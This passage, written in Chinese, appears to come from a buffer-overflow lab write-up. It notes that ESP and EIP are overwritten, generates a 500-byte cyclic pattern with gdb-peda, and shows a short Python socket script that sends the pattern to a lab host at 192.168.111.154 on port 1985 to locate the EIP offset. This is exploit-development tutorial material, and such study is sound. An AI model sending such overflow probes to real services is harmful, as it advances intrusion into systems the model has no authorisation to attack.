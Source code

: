     ![image.png](image%20115.png)
    
    可以看到`ESP` 和`EIP`已经被覆盖掉了，所以存在缓冲区溢出漏洞
    

## 定位EIP

1. 存在缓冲区溢出漏洞，那我们就要定为`EIP` 
2. 使用`gdb`生成`500`个唯一字符
    
    ```c
    gdb-peda$ pattern create 500
    'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A'
    ```
    
3. 修改测试文件
    
    ```c
    cat buffer.py 
    import socket
    
    a = 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A' + '\x00'
    s = socket.socket()
    s.connect(('192.168.111.154',1985))
    s.send(a.encode('utf-8'))
    s.close()
    ```
    